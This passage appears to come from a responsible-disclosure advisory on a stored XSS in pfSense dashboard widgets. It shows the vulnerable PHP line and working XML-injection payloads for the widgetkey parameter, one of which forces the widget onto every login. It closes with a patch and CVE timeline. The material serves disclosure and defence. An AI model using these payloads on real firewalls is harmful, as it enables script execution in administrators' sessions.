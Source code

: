 However, by controlling the value of this stored setting, we can effectively output JavaScript code to the user when the widget loads. More specifically, this PHP code will be displaying the stored value:
```php
logsObject.freq = <?=$nentriesinterval?>/5;
```

To avoid the generation of invalid code in the user browser, we can add the expected values after our malicious script with this payload:

`widgetkey=test/><log-0><filterlogentriesinterval>5;alert("XSS");var test=50</filterlogentriesinterval></log-0><!--`

Resulting in this XML configuration file being generated and stored:
```xml
<widgets>
	<log-0>
	<filterlogentriesinterval>5;alert('XSS');var test=50</filterlogentriesinterval>
	</log-0>
</widgets>
```

By targeting the `<log-0>` tags expected by this widget, the code generated upon loading becomes:
```javascript
<script>
logsObject.freq = 5;alert("XSS");var test=50/5;
</script>
```
### Displaying the vulnerable widget

*Forcing Widget Display Regardless of User Preferences*

Even if the administrator is not using the widget (e.g., it is not appearing on the main dashboard upon login), we can easily inject more XML along with this payload in such a way that the widget will get displayed when anyone logs in.

pfSense relies on a key in the widget configuration section named **sequence**, which is used to keep track of which widgets you are displaying and where they are placed in the dashboard. We can overwrite that setting with the same XML structure injection vulnerability in such a way that any chosen widget will be displayed:

e.g., payload:
```
widgetkey=test/><sequence>log:col2:open:0</sequence><!--
```

This ensures that our XSS will get loaded the next time someone loads the dashboard, regardless of previous display settings.

See the pfSense bugtracker for additional details:
* https://redmine.pfsense.org/issues/15860
* https://redmine.pfsense.org/issues/15844

### Timeline
* 2024-11-15 - Vulnerability reported to security@netgate.com
* 2024-11-15 - Vulnerability acknowledged
* 2024-12-02 - [Fix](https://github.com/pfsense/pfsense/commit/04b74da157709a89b7b032a91d72f7697d17f7fc) pushed to master on all widgets
* 2024-12-02 - Found a work-around for the patch
* 2024-12-03 - Another patch was provided. PHP directive **request_order** [updated](https://github.com/pfsense/pfsense/commit/738f647c453a8995c6b411f91efb66c17a0d6c11) on pfSense master.
* 2025-01-07 - CVE assigned
  
---